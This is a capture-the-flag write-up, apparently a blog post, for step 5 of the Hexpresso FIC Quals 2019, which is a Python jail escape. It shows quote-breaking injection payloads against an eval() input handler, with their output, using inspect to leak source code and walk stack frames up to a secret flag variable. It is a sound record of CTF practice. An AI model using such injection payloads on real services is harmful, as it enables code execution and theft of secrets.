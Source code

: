 ```yaml
---
title: "Hexpresso FIC Quals 2019: Step 5"
slug: hexpresso-fic-5
date: 20/12/2019
---
```


The fifth step is a Python jail that we must escape.

![Introduction](/assets/hexpresso-fic-quals/step5/intro.png)

We are provided a few files allowing to connect to the challenge:

```
$ socat stdio openssl-connect:ctf.hexpresso.fr:2323,cert=client.pem,cafile=server.crt,verify=0
>et ça fait bim bam boum
Bad flag !
```

Well... Looks like our input is somehow compared to the actual flag. Let's
try to break the script in order to get a trace:

```
>'
Traceback (most recent call last):
  File "./main.py", line 28, in <module>
    main()
  File "./main.py", line 21, in main
    if flag == get_input():
  File "./main.py", line 15, in get_input
    return eval(f"""'{input(">")}'""")
  File "<string>", line 1
    '''
      ^
SyntaxError: EOF while scanning triple-quoted string literal
```

There is a lot of information here! What we know:

* The script is `main.py`
* Our input is retrieved using the `input` function
* The [f-string](https://realpython.com/python-f-strings/) feature is used,
so we are in a Python 3.6 runtime at least
* Our input is put into single quotes and forwarded to `eval`
* We are in a function `get_input`
* `get_input` is called in main
* There is a `flag` variable in the `main` function that looks to hold the flag

We can inject Python using a standard closing/comment payload such as:

```
>vroum' and print('Hello') #
Hello
Bad flag !
```

In that example, the following is evaluated:

```python
'vroum' and print('Hello') #'
```

As `'vroum'` is a truthy, the other side of the `and` gets to be evaluated
and our `print` is executed.

I used [inspect](https://docs.python.org/3/library/inspect.html) in order
to leak the source code:

```
>vroum' + print(__import__('inspect').getsource(get_input)) #
def get_input():
    return eval(f"""'{input(">")}'""")
[truncated]
```

Let's get main:

```
>vroum' + print(__import__('inspect').getsource(main)) #
def main():
    flag = get_flag()

    if flag == get_input():
        print(SUCCESS)
    else:
        print(FAIL)
[truncated]
```

The `get_flag` function looks promising!

```
>vroum' + print(__import__('inspect').getsource(get_flag)) #
def get_flag():
    flag = os.environ.get("FLAG", "FLAG{LOCAL_FLAG}")
    os.environ.update({"FLAG": ""})
    return flag
```

Too bad for us... The flag is retrieved and then emmediately removed
from the environment at the start of the script. We'll have to go back a couple
of scopes in order to reach the `flag` variable and print its content.

```
>vroum' and print(__import__('inspect').currentframe().f_back.f_back.f_locals) #
{'flag': 'Next step : http://c4ffddcc437c5df3e6d681e7cafab510.hexpresso.fr'}
Bad flag !
```

This payload is actually very simple:

* Import `inspect`
* Get the current frame (in the `eval`)
* Go back one scope (to `get_input`)
* Go back another scope (to `main`)
* Print the local variables (of `main`)

[Click here](/posts/hexpresso-fic-6) for the next step!
